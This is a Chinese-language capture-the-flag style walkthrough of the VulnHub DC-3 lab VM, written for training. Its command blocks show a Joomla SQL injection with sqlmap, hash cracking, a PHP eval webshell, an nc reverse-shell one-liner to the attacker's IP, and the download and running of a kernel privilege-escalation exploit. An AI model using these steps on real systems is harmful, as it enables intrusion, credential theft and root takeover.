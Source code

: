 # DC 3

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-3,312/

![](./img/vulnhub-dc3-1.png)

## 知识点

- john跑hash
- 后台编辑器命令执行
- 内核提权

## 信息收集

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 172.16.8.0/24 # IP探测 扫描本地C段的网络端口信息
# 192.168.2.16
nmap -A -p- -T4 172.16.8.71
```

目标是joomla的网站


## 漏洞利用

```bash
joomscan --url http://172.16.8.71 # 看出Joomla 3.7.0
searchsploit Joomla 3.7.0  # 寻找框架漏洞
```

![](./img/vulnhub-dc3-2.png)

目标版本存在SQL注入漏洞

```
cp /usr/share/exploitdb/exploits/php/webapps/42033.txt  jommla.txt
cat  jommla.txt
```

![](./img/vulnhub-dc3-3.png)

```bash
sqlmap -u "http://172.16.8.71/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
![](./img/vulnhub-dc3-4.png)

```
sqlmap -u "http://172.16.8.71/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -T '#__users' -C name,password --dump
```

![](./img/vulnhub-dc3-5.png)

利用 johnny 暴力破解,获得密码为snoopy

```
echo "\$2y\$10\$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

登录后台`http://172.16.8.71/administrator/index.php`

![](./img/vulnhub-dc3-6.png)
![](./img/vulnhub-dc3-7.png)
![](./img/vulnhub-dc3-8.png)

新建test.php,插入木马一句话

```php
<?php eval($_POST[1]);?>
```

蚁剑连接
```
http://172.16.8.71/templates/beez3/test.php
```

![](./img/vulnhub-dc3-9.png)


反弹shell
```bash
nc -lnvp 1337
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.8.68 1337 >/tmp/f');?>
# 上面写到test文件里
```

![](./img/vulnhub-dc3-10.png)

可见权限是www-data，接下来是内核提权

信息收集
```bash
lsb_release -a
uname -a
```

![](./img/vulnhub-dc3-11.png)

```bash
searchsploit ubuntu 16.04 4.4.x
earchsploit -m 39772
cat 39772.txt
proxychains4 wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

传输exp
```
python -m SimpleHTTPServer 80
wget http://10.30.0.81/39772.zip
unzip 39772.zip && cd 39772 && tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit && sh compile.sh
./doubleput
```

![](./img/vulnhub-dc3-12.png)
![](./img/vulnhub-dc3-13.png)

## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC3-WalkThrough.md
- http://www.kxsy.work/2021/08/11/shen-tou-dc-3/